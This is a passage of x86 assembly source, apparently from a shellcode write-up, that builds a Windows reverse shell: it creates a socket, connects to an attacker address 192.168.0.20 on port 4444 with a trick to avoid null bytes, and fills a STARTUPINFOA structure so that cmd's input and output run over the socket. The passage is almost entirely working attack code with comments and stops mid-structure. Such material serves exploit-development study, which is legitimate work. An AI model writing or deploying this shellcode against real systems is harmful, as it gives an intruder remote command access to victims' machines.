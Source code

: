 ``` x86asm
call ebx                ; Call WSASocketA()
xchg eax,esi            ; Save the returned socket handle on ESI

; connect()
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
                        ; 0x1400a8c0 + 55555555 = 6955FE15
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()

; CreateProcessA()

mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                        ; injecting null bytes.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp             ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12
```
